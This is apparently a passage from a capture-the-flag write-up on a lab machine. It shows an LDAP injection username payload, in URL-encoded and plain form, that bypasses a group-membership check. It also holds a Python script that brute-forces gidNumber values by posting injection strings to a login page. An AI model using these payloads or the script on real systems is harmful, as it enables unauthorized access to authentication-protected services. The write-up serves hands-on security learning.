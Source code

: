                 <input type="OTP" class="form-control" id="inputOTP" name="inputOTP" placeholder="One Time Password">
                <!-- we'll change the schema in the next phase of the project (if and only if we will pass the VA/PT) -->
              </div>
            </div>
            <div class="form-group row">
              <div class="col-sm-10">
                <button type="submit" class="btn btn-primary  name="submit" value="Submit">Submit</button>
              </div>
            </div>
          </form>
          ...
          ```
        __NOTE(S)__:
        - An error message pops up when fuzzing the `inputCmd`'s input:
          - REQUEST: `inputCmd=test`
          - RESPONSE: `<div class="col-sm-10">User must be member of root or adm group and have a registered token to issue commands on this server</div>`
        - There was a `gidNumber` attribute when I was bruteforcing used attributes.
          - `root` and `adm` has group numbers __0__ and __4__ respectively
          - Maybe `ldapuser`'s group number could be added to the check done by __*/page.php*__
          - Maybe the group restriction could be bypassed by passing an LDAP injection as a username.

   3. Login again with an injected LDAP payload:
      - Credentials for __*/login.php*__:

        USERNAME | PASSWORD
        --- | ---
        ldapuser%29%29%28%7C%28gidNumber%3A2.5.13.14%3A%3D1000 | Generate an OTP using `stoken`

        __NOTE(S)__:
        - PLAINTEXT: `ldapuser))(|(gidNumber:2.5.13.14:=1000`
        - system users have group numbers __*starting*__ from __1000__
          - Run using `python3`:
            ```py
            import requests as r
            import urllib.parse as u

            for i in range(1000, 1050):
                ldap_injection = "ldapuser))(|(gidNumber:2.5.13.14:=%d" % (i)
                data = { "inputUsername": u.quote(ldap_injection) }
                req = r.post("http://10.10.10.122/login.php", data=data)

                if "Cannot login" in req.text: break

            print("[x] ldapuser's gidNumber : " + str(i))
            ```
          - `[x] ldapuser's gidNumber : 1000`
        - An OR statement to include `ldapuser`'s group number to the check was added
        - `gidNumber:2.5.13.14:=1000`
          - According to Microsoft, `gidNumber` has an [Enumeration Syntax](https://docs.microsoft.com/en-us/windows/desktop/adschema/s-enumeration)
          - __Enumeration__ has the ability to use [Matching Rules](https://ldap.com/matching-rules/)
            ```
            Integer Matching
            ...
            integerMatch (OID 2.5.13.14): An equality matching rule that will consider two integer values 
            equivalent if they represent the same number.
            ```
        - __*The group restriction no longer applies*__

---